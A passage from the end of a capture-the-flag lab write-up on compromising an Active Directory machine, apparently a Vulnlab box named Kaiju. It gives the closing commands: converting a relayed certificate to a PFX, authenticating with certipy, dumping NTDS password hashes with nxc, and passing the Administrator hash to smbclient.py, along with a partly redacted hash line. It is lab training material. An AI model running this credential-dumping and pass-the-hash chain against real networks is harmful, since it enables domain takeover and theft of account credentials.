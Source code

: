 ![alt text](<../assets/image_kaiju/11er succeed esc8.png>)

Ok now we just need to export this base64 certificate like that :

```bash
echo "b64 certificate" | base64 -d > administrator.pfx

# then use the pfx to retrieve the hash and a ccache
proxychains -q certipy auth -pfx administrator.pfx

export KRB5CCNAME='bersrv100.ccache'

# and dump ntds
proxychains -q nxc smb 10.10.200.181 --use-kcache --ntds

Administrator:500:aad3b435b51404eeaad3b435b51404ee:0b[...]40:::

# and u can connect to the smb to retrieve the root flag
proxychains -q smbclient.py 'bersrv100.kaiju.vl'/'Administrator'@10.10.200.181 -hashes :'0b[...]40'
```
Nice ! if you have any questions or comments on this write up you can dm me on [instagram](https://instagram.com/eliott.la) or on discord : 'ethicxz.'

